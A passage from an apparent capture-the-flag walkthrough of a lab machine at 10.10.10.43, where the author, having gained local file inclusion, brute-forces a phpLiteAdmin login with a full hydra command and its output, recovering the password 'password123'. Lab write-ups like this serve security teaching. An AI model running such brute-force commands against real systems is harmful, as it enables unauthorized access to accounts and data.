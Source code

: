 This time it works, and we now have LFI on the target.

We still need to find a way to get code execution though, as without that we won't be able to get a shell on the target. Let's move on to the phpLiteAdmin page next, as perhaps we could get code execution from there.

## phpLiteAdmin

Let's use "hydra" against the phpLiteAdmin login page at [https://10.10.10.43/db/index.php](https://10.10.10.43/db/index.php) with the following command:

> hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^\&remember=yes\&login=Log+In\&proc\_login=true:Incorrect password"

```
└─$ hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-29 11:26:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9437 login tries (l:1/p:9437), ~590 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-29 11:27:28
                                                                                         
```

&#x20;It doesn't take "hydra" long to find the password (password123), which we use to successfully login to the site:

![](<../../.gitbook/assets/10 (3).JPG>)
